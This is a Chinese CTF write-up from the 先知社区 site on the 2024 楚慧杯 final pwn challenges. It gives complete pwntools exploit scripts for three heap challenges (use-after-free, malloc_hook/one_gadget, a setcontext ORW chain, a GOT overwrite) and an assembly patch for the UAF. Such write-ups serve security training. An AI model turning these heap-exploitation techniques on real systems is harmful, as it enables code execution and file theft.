# 2024楚慧杯决赛pwn方向题解-先知社区

> **来源**: https://xz.aliyun.com/news/16702  
> **文章ID**: 16702

---

# break

## babyheap

2.23版本，存在uaf漏洞，将malloc\_hook改成one\_gadget，打不通，gdb调试发现是寄存器的值不满足one\_gadget的条件，需要利用realloc\_hook调整栈帧。

```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./baby')
#p=remote('27.25.151.12',37721)
elf=ELF('./baby')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def add(idx,size,content):
    rl("choice >>")
    sl(str(1))
    rl("index>>")
    sl(str(idx))
    rl("size>>")
    sl(str(size))
    rl("please input...")
    s(content)
def free(idx):
    rl("choice >>")
    sl(str(2))
    rl("index>>")
    sl(str(idx))
def show(idx):
    rl("choice >>")
    sl(str(3))
    rl("index>>")
    sl(str(idx))
add(0,0x88,b'a')
add(1,0x68,b'a')
add(2,0x68,b'a')
add(3,0x18,b'a')
free(0)
show(0)
libc_base=get_addr64()-3951480
li(hex(libc_base))
malloc_hook=libc_base+libc.sym['__malloc_hook']
realloc=libc_base+libc.sym['realloc']
free(1)
free(2)
free(1)
add(4,0x68,p64(malloc_hook-0x23))
one_gadget=0x4527a+libc_base
add(5,0x68,b'a')
add(6,0x68,b'a')
#bug()
add(7,0x68,b'a'*(0x13-8)+p64(one_gadget)+p64(realloc+1))
rl("choice >>")
sl(str(1))
rl("index>>")
sl(str(8))
rl("size>>")
sl(str(0x10))
inter()
'''
0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv
  '''
```

## Messy\_heap

2.31版本

add函数，可申请0xf个堆块，堆块大小最大为0x90，在tcachebins范围内



free函数，指针未置零，存在uaf



edit函数，跟进dword\_4060[v1]发现只能编辑0x38大小的内容



开启了沙盒保护，禁用execve



基本思路就是打setcontext+orw\
但是edit函数只能修改0x38，堆块大小也有限制，需要将orw巧妙地写入好几个堆块中才行。

2.31版本利用setcontext需要控制rdx寄存器，这里我们需要寻找一个gadget去帮我们控制rdx

```
0x0000000000151bb0 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
```

这个时候我们就可以利用rdi去间接控制rdx寄存器了。



将整个的rop链子分别写入012堆块里。由于edit函数最多只能写入0x38大小的字节，而orw的长度是大于0x38的，那么就需要先构造一个read函数将读入大小修改至0x200。

然后再将完整的orw读入即可。

getshell！




```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./messy')
#p=remote('27.25.151.12',37721)
elf=ELF('./messy')
libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
def add(idx,size,content):
    rl("> ")
    sl(str(1))
    rl("Index: ")
    sl(str(idx))
    rl("Size: ")
    sl(str(size))
    rl("yours Content: ")
    s(content)

def free(idx):
    rl("> ")
    sl(str(2))
    rl("Index: ")
    sl(str(idx))

def show(idx):
    rl("> ")
    sl(str(4))
    rl("Index: 
")
    sl(str(idx))

def edit(idx,content):
    rl("> ")
    sl(str(3))
    rl("Index: ")
    sl(str(idx))
    rl(" Content: ")
    s(content)
for i in range(10):
    add(i,0x88,b'a')
for i in range(7):
    free(i+1)
free(0)
show(0)
libc_base=get_addr64()-2018272
li(hex(libc_base))
rbp = libc_base+libc.search(asm("pop rbp
ret")).__next__()
rdi = libc_base+libc.search(asm("pop rdi
ret")).__next__()
rsi= libc_base+libc.search(asm("pop rsi
ret")).__next__()
rdx= libc_base+libc.search(asm("pop rdx
pop r12
ret")).__next__()
rax= libc_base+libc.search(asm("pop rax
ret")).__next__()
free_hook=libc_base+libc.sym['__free_hook']
ret = libc_base+libc.search(asm("ret")).__next__()
open=libc_base+libc.sym['open']
read=libc_base + libc.sym['read']
write=libc_base + libc.sym['write']
syscall=libc_base+libc.search(asm("syscall
ret")).__next__()
magic_gadget=libc_base+0x0000000000151bb0#mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
setcontext=libc_base+libc.sym['setcontext']+61
show(2)
heap=u64(p.recv(6).ljust(8,b'\x00'))-0x90#chunk0
li(hex(heap))
edit(7,p64(free_hook))
add(10,0x88,b'a')
add(11,0x88,p64(magic_gadget))
fake_rsp=heap+0x120
orw = b'/flag\x00\x00\x00'+p64(heap)+p64(0)*2+p64(setcontext)
orw=orw.ljust(0xa0,b'\x00')+p64(fake_rsp)+p64(rdi+1)
orw = p64(rdi) + p64(0) 
orw += p64(rsi) + p64(fake_rsp+0x160-0x120)
orw += p64(rdx) + p64(0x200)*2
orw += p64(read)
edit(0,b'/flag\x00\x00\x00'+p64(heap)+p64(0)*2+p64(setcontext))
edit(1,b'\x00'*0x10+p64(fake_rsp)+p64(rdi+1))
edit(2,orw)
bug()
free(0)
orw = p64(rdi) + p64(heap)  
orw += p64(rsi) + p64(0)
orw += p64(open)
orw += p64(rdi) + p64(3)
orw += p64(rdx) + p64(0x50)*2
orw += p64(rsi)+p64(fake_rsp+0x200)
orw += p64(read)
orw += p64(rdi) + p64(1)
orw += p64(rdx) + p64(0x50)*2
orw += p64(rsi)+p64(fake_rsp+0x200)
orw += p64(write)
s(orw) 
inter()
```

## Sequence table

禁用execve和execveat



看代码是个堆题，但其实是个伪堆题。

show函数

输入一个数字，与a2进行比较，a2=0，所以我们要输入一个负数，gdb调试show函数发现存在数组越界，漏洞点就是这几段汇编1



​



```
nmov    rax, qword ptr [rbp - 0x20]#RAX, [0x7ffeed19c130] => 0x55e2fc0020c0 (info)
mov    edx, dword ptr [rbp - 0xc]#将我们输入的值赋给edx
movsxd rdx, edx   #将32位转64位
shl    rdx, 6   #将64位寄存器 rdx 中的值向左移动 6 位
add    rax, rdx #rax=rax+rdx
mov    rsi, rax #这里对rsi进行赋值，执行write函数就会将地址打印出来
```

因此我们只要输入合适的数字就可以对rsi进行赋值，从而泄露相关地址

输入-1可以泄露出\_IO\_2\_1\_stdout\_的地址



输入-2可以泄露prctl@got[plt]的地址，从而计算出pie基址。



add函数



可以进行三次读入，可以看到读入地址都是连续的（都是往bss段写）

利用多次free将我们的读入地址上调到got段



程序调用exit时rsp指向info




那么我们可以尝试修改exit的got来达到控制程序执行流

这里用到了ida中存在的what函数



此时程序恰好跳转到了我们第一次add时构造的rop链上，执行汇编构造read函数



再次读入orw即可getshell



```
from pwn import*
from struct import pack
import ctypes
context(log_level = 'debug',arch = 'amd64')
p=process('./table')
#p=remote('27.25.151.12',37721)
elf=ELF('./table')
#libc=ELF('/root/glibc-all-in-one/libs/2.31-0ubuntu9.16_amd64/libc.so.6')
libc=ELF('/root/glibc-all-in-one/libs/2.27-3ubuntu1.6_amd64/libc.so.6')
def bug():
    gdb.attach(p)
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def pr(a):
    print(p.recv(a))
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
def add(content1,content2,content3):
    rl("is : ")
    sl(str(1))
    rl("student")
    s(content1)
    rl("student")
    s(content2)
    rl("score")
    s(content3)

def edit(content1,content2,content3):
    rl(": ")
    sl(str(3))
    rl("student")
    s(content1)
    rl("student")
    s(content2)
    rl("score")
    s(content3)

def free(idx):
    rl(": ")
    sl(str(2))
    rl("delete?")
    sl(str(idx))

def show(idx):
    rl(": ")
    sl(str(4))
    rl("index")
    sl(str(idx))
show(-1)
libc_base=get_addr64()-libc.sym['_IO_2_1_stdout_']
li(hex(libc_base))
show(-2)
get_addr64()
get_addr64()
get_addr64()
pie_base=u64(p.recv(8)[-6:].ljust(8, b'\x00'))-0x866
li(hex(pie_base))
rbp = libc_base+libc.search(asm("pop rbp
ret")).__next__()
rdi = libc_base+libc.search(asm("pop rdi
ret")).__next__()
rsi= libc_base+libc.search(asm("pop rsi
ret")).__next__()
rdx= libc_base+libc.search(asm("pop rdx
ret")).__next__()
rax= libc_base+libc.search(asm("pop rax
ret")).__next__()
free_hook=libc_base+libc.sym['__free_hook']
ret = libc_base+libc.search(asm("ret")).__next__()
open=libc_base+libc.sym['open']
read=libc_base + libc.sym['read']
write=libc_base + libc.sym['write']
syscall=libc_base+libc.search(asm("syscall
ret")).__next__()
add(p64(rdi)+p64(0),p64(rsi)+p64(pie_base+0x2020C0+0x30)+p64(rdx)+p64(0x200),p64(read))
add(b'c',b'c',b'c')
free(0)
free(0)
free(0)
free(0)
add(p64(0)*2,p64(libc_base+libc.sym['__isoc99_scanf'])+p64(pie_base+0x0000000000000f24),b'a')
bug()
free(10)
fake_rsp=pie_base+0x2022c0
orw = b'/flag\x00\x00\x00'
orw += p64(rdi) + p64(pie_base+0x2020C0+0x30) 
orw += p64(rsi) + p64(0)
orw += p64(open)
orw += p64(rdi) + p64(3)
orw += p64(rdx) + p64(0x50)
orw += p64(rsi)+p64(fake_rsp+0x200)
orw += p64(read)
orw += p64(rdi) + p64(1)
orw += p64(rdx) + p64(0x50)
orw += p64(rsi)+p64(fake_rsp+0x200)
orw += p64(write)
s(orw)
inter()
```

# fix

## messy\_baby

修补uaf漏洞，将指针置零即可

在eh\_frame段写汇编，需要先用010editor给eh\_frame段777权限

编写汇编：

```
call    _free
mov     rax, [rbp+var_8]#根据实际情况
lea     rdx, ds:0[rax*8]
lea     rax, chunks
mov     r8, 0
mov     [rax+rdx], r8
jmp     +原free后地址
```
